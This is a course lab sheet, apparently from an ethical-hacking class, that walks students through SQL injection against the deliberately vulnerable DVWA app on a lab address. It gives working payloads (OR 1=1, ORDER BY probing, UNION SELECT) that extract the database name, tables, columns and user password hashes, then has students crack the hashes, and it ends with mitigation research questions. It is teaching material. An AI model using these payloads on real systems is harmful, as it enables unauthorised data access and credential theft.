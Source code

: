 
# Lab 7- Injection Attacks 

**Objectives:**
In this lab, you will exploit a web application’s vulnerability using SQL injection and research methods for SQL injection mitigation.

---

### **Part 1: Exploit an SQL Injection Vulnerability on DVWA**

**Background / Scenario:**
SQL injection is a widespread attack used to exploit vulnerabilities in SQL database-driven web applications. Attackers use this technique to manipulate databases by injecting malicious SQL code into input fields, aiming to access sensitive information or alter data.

**Required Resources:**
- Kali VM customized for the Ethical Hacker course
- Internet access

---

**Instructions:**

---

#### **Step 1: Prepare DVWA for SQL Injection Exploit**
1. Open your browser and navigate to the DVWA at `http://10.6.6.13`.
2. Log in with the credentials: `admin` / `password`.
3. Set DVWA to Low Security:
   - Click **DVWA Security** in the left pane.
   - Change the security level to **Low** and click **Submit**.

---

#### **Step 2: Check DVWA for a SQL Injection Vulnerability**
1. Click **SQL Injection** in the left pane.
2. In the **User ID** field, type `' OR 1=1 #` and click **Submit**.
3. Observe the output and determine if the vulnerability exists.

---

#### **Step 3: Check for Number of Fields in the Query**
1. In the **User ID** field, type `1' ORDER BY 1 #` and click **Submit**.
2. In the **User ID** field, type `1' ORDER BY 2 #` and click **Submit**.
3. In the **User ID** field, type `1' ORDER BY 3 #` and observe the error message. What does this tell you about the number of fields?

---

#### **Step 4: Check the Database Version**
1. In the **User ID** field, type `1' OR 1=1 UNION SELECT 1, VERSION()#` and click **Submit**.
2. What is the version of the database management system (DBMS)?

---

#### **Step 5: Determine the Database Name**
1. In the **User ID** field, type `1' OR 1=1 UNION SELECT 1, DATABASE()#` and click **Submit**.
2. What is the name of the database?

---

#### **Step 6: Retrieve Table Names from the Database**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#
   ```
2. What are the names of the tables found?

---

#### **Step 7: Retrieve Column Names from the Users Table**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'#
   ```
2. What column names are returned?

---

#### **Step 8: Retrieve User Credentials**
1. In the **User ID** field, type:
   ```
   1' OR 1=1 UNION SELECT user, password FROM users #
   ```
2. Analyze the usernames and password hashes that are displayed.

---

#### **Step 9: Hack the Password Hashes**
1. Open another tab in your browser and navigate to [CrackStation](https://crackstation.net).
2. Copy and paste one of the password hashes into CrackStation and click **Crack Hashes**.
3. What is the password of the **admin** account?
4. What is the password of the **pablo** account?

---

### **Part 2: Research SQL Injection Mitigation**

#### **Step 1: Conduct Research on SQL Injection Mitigation**
- Search online for **SQL injection mitigation** techniques.
- Document your findings on how SQL injection attacks can be mitigated or prevented.

---

### **Reflection Questions**

1. What are three methods to mitigate SQL injection exploits?
2. Why is input validation important in preventing SQL injection?
3. How does using parameterized queries or prepared statements help protect against SQL injection?


